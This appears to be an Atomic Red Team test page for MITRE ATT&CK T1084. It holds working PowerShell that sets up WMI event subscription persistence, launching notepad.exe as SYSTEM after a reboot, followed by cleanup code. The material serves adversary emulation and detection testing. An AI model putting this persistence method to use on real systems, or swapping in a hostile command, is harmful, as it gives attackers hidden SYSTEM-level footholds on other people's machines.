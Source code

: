 ## Windows Management Instrumentation Event Subscription

MITRE ATT&CK Technique: [T1084](https://attack.mitre.org/wiki/Technique/T1084)

### Persistence

Example:
```powershell
#Run from an administrator powershell window
#Code references
#https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af
#https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-Example';
                CommandLineTemplate="$($Env:SystemRoot)\System32\notepad.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = [Ref] $Filter
Consumer = [Ref] $Consumer
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

After running, reboot the victim machine. After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.


Cleanup:
```powershell
#Run from an administrator powershell window
#Code references
#https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af
#https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding"

$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```

#### References

https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af
https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545